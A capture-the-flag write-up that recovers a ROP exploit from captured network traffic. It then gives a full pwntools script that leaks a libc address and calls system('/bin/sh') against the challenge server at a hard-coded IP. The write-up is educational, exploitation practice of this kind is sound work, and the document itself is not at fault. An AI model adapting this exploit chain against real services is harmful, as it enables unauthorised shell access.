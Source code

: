 ```
Our network was recently breached by some 0-day that we never saw before.
I am providing you with the pcap of the network. Please find out what did they take.

Difficulty estimate: Easy
```

This challenge really intrigued me since it didn't provide us with a binary, so I was really curious about how should one approach this problem.

Since we are provided with a pcap we start by firing up wireshark and analyzing the packets.

Besides ssh and tls traffic there are some interesting tcp packets sending some data. I applied the data as a column in tcp so i can see all the packets sending data, and something amazing showed up. Those packets were actually the exploit being sent over the wire.

I wanted to get all those packets in order to analyze them more in-depth so i opend scapy and filtered the packets that were communicationg on port 4445 since the communication took place on that port.

```python
>>> packets = rdpcap('log2.pcapng')                                                                                                          
>>> pkts = PacketList() 
...: for p in packets: 
...:     if p.haslayer(Raw) and p.haslayer(TCP): 
...:         if p[TCP].sport == 4445 or p[TCP].dport == 4445: 
...:             print(p.load) 
...:                                                                                                                                         
b'AAAAAAAAAAAAAAAAAAAAAAAA'
b'read GOT at 0x404020\n'
b'AAAAAAAAAAAAAAAAAAAAAAAAK\x12@\x00\x00\x00\x00\x00 @@\x00\x00\x00\x00\x00\n'
b'puts PLT at 0x40102c\n'
b'AAAAAAAAAAAAAAAAAAAAAAAAK\x12@\x00\x00\x00\x00\x00 @@\x00\x00\x00\x00\x00,\x10@\x00\x00\x00\x00\x00\n'
b'main in binary at 0x4011a3\n'
b'AAAAAAAAAAAAAAAAAAAAAAAAK\x12@\x00\x00\x00\x00\x00 @@\x00\x00\x00\x00\x00,\x10@\x00\x00\x00\x00\x00\xa3\x11@\x00\x00\x00\x00\x00\n'
b'read found at 0x7f76847cf250\nputs found at 0x7f7684747690\nsystem found at 0x7f768471d390\nfree found at 0x7f768475c4f0\nmalloc found at 0x7f768475c130\n'
b'We should be back at the beginning of binary'
b'POP RDI; RET gadget at 0x40124b\n'
b'AAAAAAAAAAAAAAAAAAAAAAAAK\x12@\x00\x00\x00\x00\x00WM\x86\x84v\x7f\x00\x00\x90\xd3q\x84v\x7f\x00\x00\n'
b"Got shell, let's roll\n"
b'Got flag as evlz{XxXxXxXxXxXxXxXxXxXxXxX}ctf\nClosing connection\n'
```

Hmm, this is interesting. So we know the address of system, let's search for the libc. After a quick search on libc.blukat.me I found it. Now let's get to the exploit. As we can see it's a simple rop chain. We also have the address of a pop rdi gadget. Things are simple now, call puts with the address of read, find the offset of libc in memory then call `system('/bin/sh')`.

Final exploit:

```python
#!/usr/bin/env python2
# -*- coding: utf-8 -*-
from pwn import *

context.update(arch='i386')
exe = './path/to/binary'
libc = ELF('./libc.so')

host = args.HOST or '35.198.113.131'
port = int(args.PORT or 31336)

def local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe] + argv, *a, **kw)

def remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return local(argv, *a, **kw)
    else:
        return remote(argv, *a, **kw)

gdbscript = '''
continue
'''.format(**locals())

# -- Exploit goes here --

padding = 'A' * 24

pop_rdi  = b'K\x12@\x00\x00\x00\x00\x00'
read_got = b' @@\x00\x00\x00\x00\x00'
puts_plt = b',\x10@\x00\x00\x00\x00\x00'
main     = b'\xa3\x11@\x00\x00\x00\x00\x00'

read_libc   = 0xf7250
system_libc = 0x45390
binsh_libc  = 0x18cd57

io = start()

# Stage 1. Leak

print(io.recv())
io.sendline(padding + pop_rdi + read_got + puts_plt + main)

leaked_read = u64(io.recvline().strip().ljust(8, '\x00'))
offset      = leaked_read - read_libc

log.success('read@libc: ' + hex(leaked_read))
log.success('Offset: ' + hex(offset))

# Stage 2. g3t_5h311

print(io.recv())
io.sendline(padding + pop_rdi + p64(binsh_libc + offset) + p64(system_libc + offset))

io.interactive()

```

Got flag as `evlz{w0ah_A_pwn3r_do3s_netw0rk_for3nsic5}ctf`

This was a really great problem, I loved how this CTF had lots of original problems, had a really great time playing it! Love and peace!

